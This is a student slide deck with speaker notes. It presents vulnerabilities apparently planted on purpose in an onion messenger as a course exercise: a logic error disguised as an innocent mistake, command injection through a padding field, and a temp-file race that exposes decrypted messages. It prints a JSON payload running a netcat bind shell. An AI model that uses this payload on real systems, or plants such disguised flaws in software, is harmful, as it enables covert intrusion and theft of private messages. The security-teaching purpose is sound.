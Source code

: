 ### Vulnerability and Exploitation
### (with Onion Messengers)

<br>
<br>

- TA: SeongIl Wi
- DongHyeon Oh

Note:
Hello. this is presenter DongHyeon Oh.

As you know, today subject is Vulerability and Exploitation with Onion Messegners

---

## Goals

<br>

- Logic error : anybody can make a mistake |
- Command injection : victim should not be aware |
- Privacy breach : get a sensitive data |

Note:
In this activity, I determine three goals.

First of all, anybody can make a mistake sometimes in the coding.

So I make the logic error seems to a natural mistake.

Second, if a victim was attacked by attacker, he should not be aware.

The last thing is Get a sensitive data!

---

## Scenario

- Logic error |
- Control-flow hijack(Command injection) |
- Privacy breach |


Note:
Scenario is same with Goals.

Occuring the logic error, Control flow hijacking with command injection and Privacy breach.

T_T In a broad sense, command injection is control-flow hijack

---

## Protocol

![logic1](images/logic1.png)

Note:
This is our program's protocol.

there are id and bullian. they determine the packet status.

under the this protocol table, this is the code same with protocol.


---?code=assets/logic1.cpp&lang=c++&title=Recv thread source

@[1-5](Key alive)
@[6-10](Key die)
@[11-22](Get my message)
@[50-55](Not my message. So forwarding)
@[50-57](Abnormal input go to else condition)

Note:
This is real source code.

this is key alive, key die, my message, not my message

in the not my message, work foolish.

Because this condition get all abnormal input like this one.

but exactly this program doesn't die when recv this abnormal input.

Just push in to the queue.

---?code=assets/sendthread.cpp&lang=c++&title=Logic error

@[1-12](Send Thread)
@[1-4,13-14](General input / Abnormal input)

Note:
If there is a value in the queue, this send thread could work.

And send thread encrypt a padding.

So this abnormal input also ecncrypt the padding!

---?code=assets/cmdi.cpp&lang=c++&title=Command injection

@[1-4](Send Thread)
@[6-13](Encrypt)
@[9,13](Command injection)

Note:
And this Encrypt method has a command injection attack vector.

So we can put together this Logic error and command injection.

---

## Command injection

```
{"id":"1","bullian":"192","recvip":"172.17.0.10",
"padding":"`nc -e /bin/bash -llvp 9999 1>/dev/null 2>/dev/null`"}
```

Note:
We can make this payload for command injection.

ID equal one, bullian is no matter~

and input attack payload in the padding.

---

## Get shell!

<img src="images/shell.png" width=800px height=500px>

Note:
Than we can get the shell!

Next step is Privacy breach

---

## Privacy breach

---?code=assets/privacy.cpp&lang=c++&title=pgpmanager.cpp

@[3,4,7](Make a file)
@[17,19](Delete a file)
@[7,8,17,18,19](There is a term)

Note:
This is Decrypt source code.

make a decrypt file and delete it.

And there is a term between make and delete.

So I can sniffing in this term.

---

## Demo

Note:
I am going to present Demo~

---

## Summary

- Logic error

- Control-flow hijack

- Privacy breach

---

# Q & A

---

## Appendix1

- Logic error

```
A bug in a program that causes it to operate incorrectly,
but not to terminate abnormally (or crash).

-> Send thread is operate incorrectly,
   but not to terminate abnormally!
```

---

## Appendix2

- README.md

- There are detail explanation in README.md
```
취약점 발생 원리 요약
취약점 발생 원리 상세 설명
Installation
Exploit usages
Examples
```
